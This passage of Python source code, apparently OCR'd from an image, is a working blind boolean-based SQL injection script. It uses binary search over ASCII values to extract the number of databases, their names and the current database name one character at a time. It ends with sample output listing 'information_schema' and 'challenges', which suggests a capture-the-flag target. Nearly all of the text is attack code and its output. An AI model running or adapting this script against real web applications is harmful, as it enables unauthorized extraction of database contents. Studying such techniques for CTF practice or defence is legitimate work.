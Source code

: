 ```python
        length = get_db_name_length(db_i)
        result = ""
        for word_i in range(1, length + 1):
            # binary search
            left = 33
            right = 127
            while left <= right:
                mid = (left + right) // 2
                s = payload % (db_i, word_i, '=', mid)
                if query_it(s):
                    result += chr(mid)
                    print(chr(mid), end='')
                    break
                else:
                    s = payload % (db_i, word_i, '>', mid)
                    if query_it(s):
                        left = mid + 1
                    else:
                        right = mid - 1
        db_name.append(result)
        print()

# get current database name
def get_current_db():
    print('[*]', end='')
    payload = '1 && ascii(substr((select database()), %d, 1))%s%d'
    result = ''
    for i in range(20):
        left = 33
        right = 127
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if query_it(s):
                result += chr(mid)
                print(chr(mid), end="")
                break
            else:
                s = payload % (i, '>', mid)
                if query_it(s):
                    left = mid + 1
                else:
                    right = mid - 1
    print()
    return result


if __name__ == "__main__":
    print('[*]Searching the databse num...')
    db_num = get_db_num()
    print('[+]Database num is: %d' % db_num)
    print('[*]Searching database name...')
    get_db_name()
    print(db_name)
    print('[*]Searching the current database name...')
    current_db = get_current_db()
    print('[+]' + current_db)
'''
[*]Searching the databse num...
[+]Database num is: 5
[*]Searching database name...
[0]information_schema
[1]challenges
```